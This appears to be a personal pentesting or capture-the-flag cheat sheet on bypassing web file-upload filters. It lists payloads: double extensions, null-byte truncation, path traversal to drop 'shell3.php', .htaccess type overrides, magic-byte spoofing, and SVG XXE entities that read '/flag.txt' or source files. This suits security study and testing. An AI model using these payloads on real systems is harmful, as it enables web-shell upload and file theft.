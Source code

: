 #encoding
#php
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

[[File Upload]]

##### XSS in file name

##### Double extension 
`.jpg.php`

##### Reverse Double Extension
`.php.jpg`

##### Add trailing characters. 
Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`

##### URL encoding
%

##### Null byte
Adding `%00` to http requests creates miracles.
`exploit.php%00.jpg`
then open `/uploads/exploit.php%00.jpg` 
`%00` ends parsing on it and downloads `exploit.php`

##### Low level functions of C/C++
`exploit.asp;.jpg` or `exploit.asp%00.jpg`

###### Try using multibyte unicode characters,
Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`

##### If extensions is stripped, double it
`exploit.p.phphp`

##### Upload to different directory
```
Content-Disposition: form-data; name="avatar"; filename="../shell3.php"
```

Trying to bypass filters:
```
filename="..%2fshell3.php"
```

then open `avatars/../shell3.php`

##### Replace .htaccess if some extensions are not allowed
[[file upload with apache]]
```
AddType application/x-httpd-php .nope
```

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

in the zero bytes of file:

`GIF8`
`PNG`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

#xml
SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```